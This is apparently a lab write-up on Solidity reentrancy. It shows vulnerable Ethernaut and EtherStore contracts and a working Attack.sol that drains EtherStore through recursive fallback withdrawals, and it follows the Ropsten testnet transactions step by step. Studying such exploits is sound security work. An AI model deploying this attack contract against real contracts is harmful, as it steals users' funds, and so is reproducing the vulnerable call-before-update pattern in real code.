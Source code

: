 # Examples

## Ethernaut

```javascript
pragma solidity ^0.4.18;
contract Reentrance {
  mapping(address => uint) public balances;
  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }
  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
  function() public payable {}
}
```

This Ethernaut level exploits this reentrancy issue and the following, additional factors that led to the [DAO hack](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/):  
• Fallback functions [can be called by anyone & execute malicious code](https://hackernoon.com/ethernaut-lvl-1-walkthrough-how-to-abuse-the-fallback-function-118057b68b56)  
• Malicious external contracts [can abuse withdrawals](https://medium.com/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b)

## EtherStore

{% code title="EtherStore.sol" %}
```javascript
pragma solidity 0.4.18;
contract EtherStore {
    uint256 public withdrawalLimit = 0.1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```
{% endcode %}

Note: `withdrawLimit` set to 0.1 ether.

Deployed on Ropsten:  
[https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39](https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39)

From \(Metamask\):  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To \(contract\):  
`0x52b2a43b59a39f4c863aa86da6c6fe73b33bdc73`

{% code title="Attack.sol" %}
```javascript
pragma solidity 0.4.18;

contract EtherStore {
        function depositFunds() public payable {}
        function withdrawFunds(uint256) public {}
}

contract Attack {
    //EtherStore public etherStore;
    EtherStore public etherStore;
        function Attack(address _t) public {
        etherStore = EtherStore(_t);
    }
  function attackEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 0.1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(0.1 ether)();
      // start the magic
      etherStore.withdrawFunds(0.1 ether);
  }
  function collectEther() public {
      msg.sender.transfer(this.balance);
  }
  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 0.1 ether) {
          etherStore.withdrawFunds(0.1 ether);
      }
  }
}
```
{% endcode %}

[https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f](https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f)  
From:  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To:  
`0x733146fa7f8b40f4c97d946efeb7bdc9ff69ba6e`

Deposit some Eth from Metamask \(pretend this is some other user/victim\) to EtherStore \(to steal later\):  
[https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6](https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6)  
[![images/23-1.png](../../.gitbook/assets/23-1%20%281%29.png)](./)

I can now check the balance of my Metamask account by calling the `balances` mapping:

[![images/23-2.png](../../.gitbook/assets/23-2%20%281%29.png)](./)

Send 0.1 eth from the Attack.sol contract so that it has some balance to call `withdrawFunds()` later.

The following transaction sends 0.1 eth to Attack.sol's payable attackEtherStore\(\) function which will in turn deposit and subsequently withdraw funds from EtherStore.sol

From:  
`0x109Bb3673f445D8b0d2b04436D7b4a630B873B81`  
To:  
`0x733146Fa7F8B40f4c97d946EfEb7bdc9ff69BA6E`  
Tx:  
[https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a](https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a)

[![images/23-3.png](../../.gitbook/assets/23-3%20%281%29.png)](./)

Once executed, we can see the current balance is 0.1 eth, even though 0.5 was sent

[![images/23-4.png](../../.gitbook/assets/23-4%20%281%29.png)](./)

Because 5 ether were actually sent

Notice that the first Tx in the followig image shows 0.1 ether being sent from the Attack.sol address to EtherStore.sol, followed by 5 outgoing transacions from the EtherStore.sol to Attack.Sol contract. Now Attack.sol has 0.5 eth!!!

[![images/23-5.png](../../.gitbook/assets/23-5%20%281%29.png)](./)

Also the Attack.sol contract has a massive balance on EtherStore, not sure why:

[![images/23-6.png](../../.gitbook/assets/23-6%20%281%29.png)](./)

Calling `CollectEther()` Sends those 0.5 eth back to our wallet address!

[https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93](https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93)  
[![images/23-7.png](../../.gitbook/assets/23-7%20%281%29.png)](./)

This becomes clearer is we export the internal transactions to csv:

[![images/23-8.png](../../.gitbook/assets/23-8%20%281%29.png)](./)

